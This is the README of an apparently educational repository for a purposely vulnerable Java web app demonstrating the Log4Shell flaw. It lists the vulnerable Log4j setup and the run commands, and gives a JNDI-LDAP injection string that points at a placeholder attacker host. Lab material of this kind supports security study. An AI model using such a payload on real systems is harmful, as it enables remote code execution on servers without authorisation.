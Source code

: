# CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access
- Python 3

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
```

### Run the setup script:
```bash
chmod +x run_exploit.sh
./run_exploit.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://Attacker-IP:ldap-port/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
    └── Exploit.java/class
├── ldap/
    └── LDAP-SERVER (JNDI redirector)
├── webapp/
    └── Kwetbare webapp (Jetty + log4j)
└── libs/
    └── Dependencies (via setup.sh)
├── scripts/
    ├── run_exploits.sh
    └── setup.sh
├── README.md
└── test_payload.txt # Payload voor formulierinvoer
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
